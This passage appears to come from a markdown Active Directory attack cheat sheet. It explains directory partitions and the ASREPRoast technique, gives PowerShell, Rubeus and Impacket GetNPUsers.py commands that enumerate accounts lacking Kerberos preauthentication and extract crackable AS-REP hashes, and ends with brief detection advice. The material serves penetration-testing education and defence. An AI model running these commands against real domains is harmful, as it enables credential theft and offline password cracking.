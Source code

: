 ###### *If you don't know, now you know: [Directory Partitions](https://docs.microsoft.com/en-us/windows/win32/ad/naming-contexts-and-partitions)*

Each domain controller in a domain forest controlled by Active Directory Domain Services includes directory partitions.

A directory partition is a contiguous portion of the overall directory that has independent replication scope and scheduling data.

By default, the Active Directory Domain Service for an enterprise contains the following partitions:

- **Schema Partition**: The schema partition contains the classSchema and attributeSchema objects that define the types of objects that can exist in the forest.
Every domain controller in the forest has a replica of the same schema partition.

- **Configuration Partition**: The configuration partition contains replication topology and other configuration data that must be replicated throughout the forest.
Every domain controller in the forest has a replica of the same configuration partition.
*Within this partition, we can get all domains information of the forest*

- **Domain Partition**: The domain partition contains the directory objects, such as users and computers, associated with the local domain. A domain can have multiple domain controllers and a forest can have multiple domains. 
Each domain controller stores a full replica of the domain partition for its local domain, but does not store replicas of the domain partitions for other domains.

#### ASREPRoast

ASREPRoast takes advantages of users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH).
If we perform a AS_REQ request to the DC on behalf of a vulnerable users, we can receive a message which contains a chunk of data encrypted with the original user key, derived from its password.

1) Enumerate vulnerable users
2) Request AS_REP message to the DC on behalf of any of those users, and receive an AS_REP message.

```bash
# Enumerate Vulnerable Users
Get-ADUser -filter * -Properties DoesNotRequirePreAuth | Where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name
# Request AS_REP message
## Using Rubeus
Rubeus.exe asreproast /user:USER [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]
## Using GetNPUsers.py: Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
## Using GetNPUsers.py: Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Identify accounts that Do Not Require Preauthentication.
- *Architecture*: If it is required within your organisation, male sure that you leverage long, complex passwords.
- *Active Defense*: Monitor for changes to the User Account Control ‘Don’t Require Preauth’ value within Windows Event ID 4738.
